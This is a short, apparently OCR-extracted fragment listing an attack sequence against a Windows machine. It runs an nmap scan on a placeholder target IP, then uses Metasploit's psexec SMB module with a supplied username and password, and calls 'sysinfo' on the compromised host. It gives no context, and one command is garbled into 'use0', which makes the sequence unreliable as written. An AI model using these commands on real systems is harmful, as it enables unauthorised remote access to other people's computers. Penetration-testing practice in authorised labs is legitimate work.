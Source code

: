 Run
      nmap -sN -Pn -A [target IP] 

      msfconsole 
      search exploit/windows/smb/psexec

      use0


      set SMBPass [password]
      set SMBUser [user]
      run
      
      sysinfo
